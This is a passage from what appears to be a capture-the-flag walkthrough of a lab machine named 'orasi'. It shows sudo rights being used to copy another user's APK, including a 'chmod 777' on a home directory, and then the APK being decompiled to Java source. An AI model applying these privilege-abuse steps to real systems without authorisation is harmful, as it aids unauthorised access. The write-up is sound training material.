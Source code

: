 ```console
```
## Copy the APK
```console
kori@orasi:~$ sudo -l
sudo -l
Matching Defaults entries for kori on orasi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kori may run the following commands on orasi:
    (irida) NOPASSWD: /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
kori@orasi:~$ sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
/usr/bin/cp: cannot create regular file '/home/kori/irida.apk': Permission denied
kori@orasi:~$ cd ..
cd ..
kori@orasi:/home$ chmod 777 kori 
chmod 777 kori
kori@orasi:/home$ cd /home/kori
cd /home/kori
kori@orasi:~$ sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
kori@orasi:~$ ls
ls
irida.apk  jail.php
kori@orasi:~$
```
## APK decompile & code analysis
```console
┌──(alienum㉿kali)-[~]
└─$ mv irida.apk irida.zip

┌──(alienum㉿kali)-[~]
└─$ unzip irida.zip

┌──(alienum㉿kali)-[~]
└─$ d2j-dex2jar classes.dex

┌──(alienum㉿kali)-[~]
└─$ mkdir irida

┌──(alienum㉿kali)-[~]
└─$ procyon classes-dex2jar.jar -o ./irida

┌──(alienum㉿kali)-[~/irida/com/alienum]
└─$ tree
.
└── irida
    ├── BuildConfig.java
    ├── data
    │   ├── LoginDataSource.java
    │   ├── LoginRepository.java
    │   ├── model
    │   │   └── LoggedInUser.java
    │   └── Result.java
    ├── R.java
    └── ui
        └── login
            ├── LoggedInUserView.java
            ├── LoginActivity.java
            ├── LoginFormState.java
```